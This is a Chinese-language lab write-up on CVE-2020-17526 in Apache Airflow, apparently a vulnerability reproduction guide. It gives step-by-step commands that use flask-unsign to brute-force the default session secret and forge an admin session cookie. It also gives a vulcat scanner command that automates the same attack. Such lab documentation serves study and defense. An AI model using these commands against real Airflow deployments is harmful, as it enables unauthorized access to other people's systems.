 # 💛 Apache Airflow 默认密钥导致的权限绕过

### 1）漏洞信息

|漏洞名称	|受影响组件	|漏洞类型	|漏洞编号	|
|--	|--	|--	|--	|
|Apache Airflow未授权访问<br><br>Apache Airflow默认密钥漏洞	|[ApacheAirflow](https://airflow.apache.org/)	|未授权访问	|CVE-2020-17526	|

|漏洞简介	|
|--	|
|Apache Airflow是一款开源的，分布式任务调度框架。<br>默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定webserver.authenticate=True来开启认证。<br><br>在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。	|

|参考链接	|
|--	|
|<ol><li><a href="https://vulhub.org/#/environments/airflow/CVE-2020-17526/">https://vulhub.org/#/environments/airflow/CVE-2020-17526/</a></ol>	|

|补丁及修复方案	|
|--	|
|<ol><li>修改[webserver] secret_key默认配置（修改默认密钥）</li><li>更新至最新版本：<a href="https://github.com/apache/airflow">https://github.com/apache/airflow</a></li></ol>	|

### 漏洞环境

使用[vulhub](https://github.com/vulhub/vulhub)搭建漏洞环境

```
git clone https://github.com/vulhub/vulhub
cd vulhub/airflow/CVE-2020-17526
docker-compose up -d
```

启动容器后，可以在8080端口看到Airflow登录页面

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/01.png" alt=""><figcaption></figcaption></figure>



### 漏洞复现-手工

抓取登录页面的数据包，查看Response
可以看到返回了Set-Cookie

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/02.png" alt=""><figcaption></figcaption></figure>


运行python的pip安装辅助工具flask-unsign

```shell
pip3 install flask-unsign[wordlist]

# 使用阿里云镜像，国内安装加速
pip3 install flask-unsign[wordlist] -i https://mirrors.aliyun.com/pypi/simple

# ！注意！我们需要的是命令行工具
pip3 install flask-unsign           # 这个是安装源代码
pip3 install flask-unsign[wordlist] # 这个是安装命令行工具
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/03.png" alt=""><figcaption></figcaption></figure>


安装完成之后，在命令行运行flask-unsign
如果看到工具提示信息，说明安装成功

```shell
flask-unsign
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/04.png" alt=""><figcaption></figcaption></figure>


然后运行以下命令，将Set-Cookie中的session参数传递给flask-unsign
flask-unsign会暴破session的加密密钥

```shell
flask-unsign -u -c <你的SESSION>

# 例如
flask-unsign -u -c eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiNzBhZmJhOGQ5ZmI2MDk5NGI2ZTk1YTkwZGUzYTBmZjE5ODA0YWY5YiJ9.ZAK0kQ.jSWDhcPF-n6f2V10PkCnNFUAekk
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/05.png" alt=""><figcaption></figcaption></figure>

如果暴破成功，会返回一个字符串
此处发现session的加密密钥为：temporary_key

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/06.png" alt=""><figcaption></figcaption></figure>

获得密钥之后，运行以下命令，伪造一个新的session，以便登录Airflow

```shell
flask-unsign -s --secret <你的密钥> -c "{'user_id': '1', '_fresh': False, '_permanent': True}"

# 例如
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/07.png" alt=""><figcaption></figcaption></figure>

获得伪造的session之后，将其添加到Cookie当中

```
Cookie: session=你伪造的SESSION
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/08.png" alt=""><figcaption></figcaption></figure>

然后刷新页面，成功进入后台
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/09.png" alt=""><figcaption></figcaption></figure>



### 漏洞复现-vulcat

```shell
python3 vulcat.py -u <URL> -a airflow

# 注意, vulcat-v2.0.0版本及以上, 应使用以下命令
python3 vulcat.py -u <URL> -v cve-2020-17526
```

如图，vulcat返回了默认密钥 以及 伪造的session

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/10.png" alt=""><figcaption></figcaption></figure>

将伪造的session添加到Cookie

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/11.png" alt=""><figcaption></figcaption></figure>

刷新页面，成功进入后台

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/apache-airflow/cve-2020-17526/12.png" alt=""><figcaption></figcaption></figure>


